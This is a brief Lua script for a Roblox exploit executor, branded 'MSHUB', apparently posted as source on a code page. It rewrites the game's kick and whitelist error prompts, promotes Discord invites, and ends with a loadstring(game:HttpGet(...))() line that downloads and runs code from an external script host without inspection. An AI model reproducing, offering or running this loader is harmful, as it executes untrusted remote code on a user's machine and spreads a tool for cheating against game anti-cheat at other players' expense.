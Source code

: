 # FLAMEWATERSEA
-- for those people who think there is an whitelist:
function KickPlr(Message)local gui = game.CoreGui.RobloxPromptGui.promptOverlay:WaitForChild("ErrorPrompt");if gui then local ErrorMessage = gui.MessageArea.ErrorFrame.ErrorMessage;ErrorMessage.Text = Message;gui.Size = UDim2.new(0, gui.Size.X.Offset, 0, 50 + game:GetService("TextService"):GetTextSize(ErrorMessage.Text, ErrorMessage.TextSize, ErrorMessage.Font, (Vector2.new(gui.Size.X.Offset - 2 * 20, 1000))).Y + 1 + 36 + 20 + 2 * 20 + 1);end end
game:GetService("GuiService").ErrorMessageChanged:Connect(function(kickmsg)
    if (kickmsg:match("LDR") or kickmsg:match("LPH")) and kickmsg:match("Invalid HWID") then 
        KickPlr("[MSHUB]\nYour executor is not supported or failed to get HWID. Join the discord server (.gg/J8P563m8aX, .gg/mshub)!\n\n[error: Invalid HWID.]")
    elseif kickmsg:match("Whitelist Error:") then 
        kickmsg = string.gsub(kickmsg, "Whitelist Error:", "LuaGuard Error:")
        KickPlr("[MSHUB]\n".. kickmsg)
    elseif kickmsg:match("Whitelist ERROR [LDR]:") then 
        kickmsg = string.gsub(kickmsg, "Whitelist ERROR [LDR]:", "LuaGuard Error:")
        KickPlr("[MSHUB]\n".. kickmsg)
    end 
end)

task.wait()
loadstring(game:HttpGet('https://scripts.luawl.com/hosted/5055/21195/loaderscriptsoreal.lua'))()
